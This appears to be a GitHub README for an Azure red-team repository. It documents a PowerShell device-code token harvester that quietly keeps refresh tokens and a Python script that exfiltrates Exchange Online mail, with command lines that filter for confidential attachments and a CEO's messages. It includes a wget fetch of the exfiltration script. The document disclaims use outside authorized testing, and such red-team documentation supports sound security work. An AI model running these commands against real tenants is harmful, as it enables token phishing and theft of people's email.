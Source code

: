 # Azure Pentesting Resource

---

# Scripts

# token_polling.ps1

## Azure AD Device Code Authentication Token Harvester

A PowerShell script that demonstrates automated token acquisition using the Azure AD device code flow authentication. The script targets Microsoft's authentication endpoints to obtain access and refresh tokens that can be used for various Microsoft services (Graph API, Azure Resource Manager, etc.).

### Features
- Implements the complete OAuth 2.0 device code flow
- Automatically handles device code request and token polling
- Configurable resource endpoint targeting (Graph API, Azure RM, etc.)
- Built-in error handling and timeout management
- Retrieves both access and refresh tokens
- Uses the Azure PowerShell client ID for broad API access

### How it Works
1. Requests a device code from Azure AD's OAuth endpoint
2. Displays authentication URL and user code for sign-in
3. Continuously polls the token endpoint while waiting for user authentication
4. Upon successful authentication, retrieves and outputs the access token
5. Silently stores the refresh token for potential reuse

### Usage

```bash
pwsh
.\query.ps1
```

## Authentication Flow
1. When executed, the script will output something like:
```bash
Requesting device code...
Authentication URL: https://microsoft.com/devicelogin
User Code: ABCD-EFGH
Please visit the authentication URL, enter the code above, and sign in.
```
2. Visit the provided URL in your browser
3. Enter the displayed code
4. Sign in with your Microsoft account
5. The script will automatically detect the authentication and retrieve the token

#### Resource Targeting
The script defaults to Microsoft Graph API but can be modified to target other Microsoft API endpoints by changing the `$resource` variable:
- Microsoft Graph: `https://graph.microsoft.com`
- Azure Resource Manager: `https://management.azure.com/`
- Classic Azure Management: `https://management.core.windows.net/`

### Notes
- The script includes automatic retry logic for token polling
- Handles rate limiting automatically
- Includes timeout functionality
- Stores both access and refresh tokens
- Access token is output to console
- Refresh token is stored in variable but not displayed

### Error Handling
The script will gracefully handle common errors:
- Authentication timeout
- Rate limiting
- Invalid codes
- Network issues

---

# exfil_exchange_email.py

## Microsoft Graph Email Exfiltrator

A Python script that leverages Microsoft Graph API access tokens to retrieve and save emails from Exchange Online/Microsoft 365 mailboxes. The script provides flexible email extraction capabilities with advanced filtering options for precise targeting.

### Features
- Automated email content extraction using Microsoft Graph API
- Complete mailbox access with token authentication
- Saves email bodies, attachments, and metadata
- Organized directory structure for extracted data
- Advanced filtering capabilities:
  - Content-based search
  - Date ranges
  - Sender/recipient filtering
  - Importance levels
  - Attachment presence and types
  - Size-based filtering
  - Term exclusion
- Handles rate limiting and pagination
- Proper error handling and recovery

### Requirements
- Python 3.x
- Required packages:
  ```
  requests
  ```

### Installation
```bash
wget https://raw.githubusercontent.com/0xG00S3/Azure/refs/heads/main/exfil_exchange_email.py
```

### Usage

#### Basic Usage
Pull all emails from inbox:
```bash
python3 exfil_exchange_email.py --token "your_graph_api_token"
```

#### Advanced Filtering Examples

1. Search for sensitive documents:
```bash
python3 exfil_exchange_email.py --token "your_token" \
--query "confidential,secret,internal" \
--has-attachments \
--importance "high"
```

2. Target date ranges with specific attachment types:
```bash
python3 exfil_exchange_email.py --token "your_token" \
--start-date "2024-01-01" \
--end-date "2024-03-01" \
--attachment-types ".pdf,.docx" \
--min-size 1000000
```

3. Filter by sender and exclude terms:
```bash
python3 exfil_exchange_email.py --token "your_token" \
--from-address "ceo@company.com" \
--exclude-terms "newsletter,automated" \
--max-emails 100
```

#### Available Arguments
```bash
--token Required. Microsoft Graph API token
--output Output directory (default: exfiltrated_emails)
--query Search terms (comma-separated)
--max-emails Maximum number of emails to retrieve
--folder Mailbox folder to search (default: inbox)
--start-date Start date (YYYY-MM-DD)
--end-date End date (YYYY-MM-DD)
--from-address Filter by sender email
--to-address Filter by recipient email
--importance Filter by importance (high/normal/low)
--has-attachments Filter for emails with attachments
--attachment-types Attachment extensions to filter (e.g., .pdf,.docx)
--exclude-terms Terms to exclude (comma-separated)
--min-size Minimum email size in bytes
--max-size Maximum email size in bytes
```

#### Output Structure
```bash
exfiltrated_emails/
├── YYYYMMDD_HHMMSS_EmailSubject1/
│ ├── body.html
│ ├── metadata.json
│ └── attachments/
│ ├── document1.pdf
│ └── document2.docx
├── YYYYMMDD_HHMMSS_EmailSubject2/
│ ├── body.txt
│ └── metadata.json
```

#### Notes
- Requires a valid Microsoft Graph API token with Mail.Read permissions
- Rate limiting is handled automatically with exponential backoff
- Attachments are saved in their original format
- HTML emails preserve their formatting
- All metadata is saved in JSON format for easy parsing

#### Disclaimer
This tool is intended for authorized security testing and red team operations only. Ensure you have proper authorization before using this tool against any target systems.


---

Everything in this repository is to be used for educational purposes only.






















